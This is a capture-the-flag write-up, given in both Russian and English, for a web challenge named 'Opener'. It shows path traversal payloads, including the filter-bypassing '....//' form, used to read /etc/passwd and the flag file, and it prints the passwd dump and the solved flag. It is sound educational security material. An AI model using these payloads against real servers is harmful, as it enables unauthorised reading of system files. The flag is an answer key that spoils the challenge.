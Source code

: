 # Opener

> Кажется, в этой функции передачи картинок что-то не так...

Каждая загрузка страницы показывает новую картинку. Можно сразу приступить к рассматриванию
исходного кода *(фрагмент воссоздан по памяти)*:

```html
<script>
    ...fetch("/files?file=" + file)...
</script>
```

Естественным решением данной задачи является Path (Directory) Traversal Attack. Для этого попытаемся
попробовать достучаться до хорошо знакомого `/etc/passwd`.

```url
/files?file=/../../../../etc/passwd
```

Данный путь не работает. Были конечно сомнения, что это не тот эксплоит, но стоило попробовать еще
покопаться. Используя [методы предложенные HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#filter-bypass-tricks),
был получен данный путь:

```url
/files?file=/....//....//....//....//etc/passwd
```

В каждом `....//` сервер находит `../` (`..(../)/`), после удаления оставляя `../`.

```passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:@:sync:/sbin:/bin/sync
shutdown:x:6:@:shutdown:/sbin:/sbin/shutdown
halt:x:7:@:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:8:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue: /sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

Дальше ручным перебором (не лучшее решение со стороны автора задания) получился путь к флагу:

```url
/files?file=/....//flag.txt
```

Флаг:

```plain
grodno{P47H_7RAV3r54L_NO_HOMo}
```

---

> There seems to be something wrong with this picture transfer function...

Every page load shows a new image. Let's instantly begin investigating the source code
*(code fragment is recreated by memory)*:

```html
<script>
    ...fetch("/files?file=" + file)...
</script>
```

A natural solution of this task is Path (Directory) Traversal Attack. For this let's try to knock at
the well-known `/etc/passwd` file.

```url
/files?file=/../../../../etc/passwd
```

This path did not work. There were some doubts whether this is the correct exploit, but it was worth
investigating a bit more. Using [methods suggested by HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#filter-bypass-tricks),
following path has been constructed:

```url
/files?file=/....//....//....//....//etc/passwd
```

In every `....//` server finds `../` (`..(../)/`), after deleting it leaves `../`.

```passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:@:sync:/sbin:/bin/sync
shutdown:x:6:@:shutdown:/sbin:/sbin/shutdown
halt:x:7:@:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:8:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue: /sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

Next a manual brute-force (not the best solution by the task author) gave a following path:

```url
/files?file=/....//flag.txt
```

Flag:

```plain
grodno{P47H_7RAV3r54L_NO_HOMo}
```
